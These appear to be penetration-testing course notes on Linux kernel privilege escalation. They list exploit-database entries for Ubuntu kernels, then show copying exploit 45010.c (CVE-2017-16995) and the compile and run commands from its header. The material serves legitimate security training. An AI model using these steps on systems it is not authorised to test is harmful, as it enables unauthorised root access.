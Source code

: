 ```
Linux Kernel 4.3.3 (Ubuntu 14.04/15.10) - 'overlayfs' Local Privilege Escalation (1)                                                                      | linux/local/39166.c
Linux Kernel 4.4 (Ubuntu 16.04) - 'BPF' Local Privilege Escalation (Metasploit)                                                                           | linux/local/40759.rb
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Netfilter 'target_offset' Out-of-Bounds Privilege Escalation                                                   | linux_x86-64/local/40049.c
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation                                                              | linux/local/39772.txt
Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPLACE' Local Privilege Escalation                                                                    | linux/local/40489.txt
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86) - 'CAP_SYS_ADMIN' Local Privilege Escalation (1)                                                                 | linux_x86/local/15916.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                                                                             | linux/local/45010.c
```
+ Let's try the last exploit (**linux/local/45010.c**), since it seems to be newer and also matches our kernel version as it targets any version below 4.13.9
+ We'll use **gcc** on Linux to compile our exploit, keeping in mind that when compiling code, we must match the architecture of our target
+ This is especially important in situations where the target machine does not have a compiler and we are forced to compile the exploit on our attacking machine or in a sandboxed environment that replicates the target OS and architecture

Although learning every detail of a Linux kernel exploit is outside the scope of this Module, we still need to understand the initial compilation instructions
+ To do so, let's copy the exploit into our Kali home folder and then inspect the first 20 lines of it to spot any compilation instructions
```
kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/45010.c .

kali@kali:~$ head 45010.c -n 20
/*
  Credit @bleidl, this is a slight modification to his original POC
  https://github.com/brl/grlh/blob/master/get-rekt-linux-hardened.c

  For details on how the exploit works, please visit
  https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html

  Tested on Ubuntu 16.04 with the following Kernels
  4.4.0-31-generic
  4.4.0-62-generic
  4.4.0-81-generic
  4.4.0-116-generic
  4.8.0-58-generic
  4.10.0.42-generic
  4.13.0-21-generic

  Tested on Fedora 27
  4.13.9-300
  gcc cve-2017-16995.c -o cve-2017-16995
  internet@client:~/cve-2017-16995$ ./cve-2017-16995
```
